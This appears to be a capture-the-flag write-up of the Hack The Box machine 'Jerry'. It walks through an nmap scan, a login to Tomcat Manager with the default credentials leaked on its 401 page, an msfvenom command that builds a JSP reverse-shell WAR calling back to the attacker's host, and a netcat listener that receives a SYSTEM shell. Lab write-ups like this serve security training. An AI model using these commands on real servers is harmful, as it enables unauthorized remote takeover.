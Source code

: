 ```yaml
---
title: Jerry
tags: windows
---
```


![image](assets/79371021-ad845280-7f21-11ea-86cf-e5a626dd47d1.png)

## Overview
Jerry is a Windows Server 2012 R2 box running Apache Tomcat 7.0.88.  The 401 unauthorized error message disclosed the username and password needed to log into the admin utility. Once there I was able to upload a reverse shell in web archive (war) format. Once executed I received a shell as 'nt authority/system'

## Enumeration

**Software**

* Apache Tomcat 7.0.88
* Microsoft Windows Server 2012 R2 Standard 

**Port Scan**
```
nmap -vv -Pn -sT -A -p- 10.10.10.95 -oN /mnt/data/boxes/jerry/_full_tcp_nmap.txt
```

* 8080/tcp

## Steps (user)


## Steps (root/system)

I started by browsing to http://10.10.10.95:8080 which showed the default "If you're seeing this, you've successfully installed Tomcat. Congratulations!" page. I clicked on Server Status and was prompted for a password. After trying default passwords (tomcat/tomcat) without success, I clicked cancel and was shown a 401 unauthorized page.

![image](assets/82158138-03675580-9854-11ea-9824-96f17e8b7825.png)

On that page I noticed an example that referenced a username and password of tomcat/s3cret. I tried that username/password combo and was able to successfully access the Server Status and Manager App pages.

![image](assets/82158474-1bd86f80-9856-11ea-8056-a6d59c8ada15.png)

On the Manager App page, there is an option to deploy a WAR file which MSFVenom supports as a payload format.

> A WAR file is a compressed package containing Java-based web components and applications that are run on a web server. It is formatted the same way as a .JAR file, but includes additional information that tells the application server which Java servlet class to run.

I created a reverse shell selecting a java payload and output the file to rshell.war

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=4200 -f war > rshell.war
```

I then uploaded rshell.war via the Manager App (http://10.10.10.95:8080/manager/html)

```
Click "Browse"
Browse to rshell.war
Click Deploy
```

/rshell was now listed under applications. I created a reverse netcat listener (nc -lvnp 4200) and clicked the link and received a callback with a shell as 'nt authority\system'

![image](assets/82158985-51cb2300-9859-11ea-92ed-b08cc57bd32b.png)


